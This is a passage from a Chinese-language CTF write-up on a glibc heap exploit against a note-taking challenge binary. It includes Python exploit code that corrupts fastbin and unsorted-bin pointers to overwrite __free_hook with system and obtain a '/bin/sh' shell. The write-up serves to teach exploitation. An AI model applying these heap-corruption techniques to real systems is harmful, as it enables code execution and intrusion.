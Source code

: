 ### Rewrite hook
這邊我有嘗試過 rewrite \_\_malloc_hook 成 one gadget

但 one gadget 條件不符合

又由於我們呼叫 create 只能輸入低於 0x400 傳進 calloc
所以改寫 \_\_malloc_hook 為 system，並輸入 `/bin/sh` 字串在 libc 中的位址給 calloc，來達到 `system("/bin/sh")` 也不可行

思維就跑到了改寫 \_\_free_hook 為 system，並將其中一個 note 內容寫為 `/bin/sh`，再 free 這個 note，就能達到`system("/bin/sh")`

這邊的招跟打 [CS_2019_Fall note++](https://hackmd.io/_Pu0GT_vRaywozC9KPgHzg#Note1) 這題的方式很像，差別是那題是 libc-2.23，沒有 Tcache。強烈建議看這一篇再回來繼續看。

繼續看 exploit
```python
create(0x60) # 1
delete(1)
```
`create(0x60)` 再 free 他
- 因為有 unsortbin(size 0xb0)，申請這塊從 unsortbin拿
    - unsortbin size 剩下 0xb0-0x70 = 0x40
- free 他時，因為 0x70 Tcache 是滿的，且屬於 fastbin，會存到 0x70 fastbin

這邊就是造一個 fastbin，等等打 fastbin attack，回顧一下目前記憶體配置:

| note id  | size(含 chunk header) | 註解
| -------- | -------------------- | ---- 
| 0        | 0x20 | notes[0].size = 0x3ff
| | 0x70 | fastbin
| | 0x40 | unsortbin
| 2 | 0x20 | notes[2].size = 0x3ff
| 3 | 0x410 |

可以看到改 note[0] 可以同時爆改 fastbin 和 unsortbin

繼續
```python
fd = libc.symbols['__free_hook'] - 0x63
bk = libc.symbols['__free_hook'] - 0x70
payload = b'c'*0x10 + \
        p64(0) + p64(0x71) + \
        p64(fd) + p64(0) + \
        b'd'*0x50 + \
        p64(0x0) + p64(0x41) + \
        p64(0x0) + p64(bk)

edit(0, payload)
```
如此一來，就改爆了:
- fastbin 的 fd 變成 `libc.symbols['__free_hook'] - 0x63`
- unsortbin 的 bk 變成 `libc.symbols['__free_hook'] - 0x70`
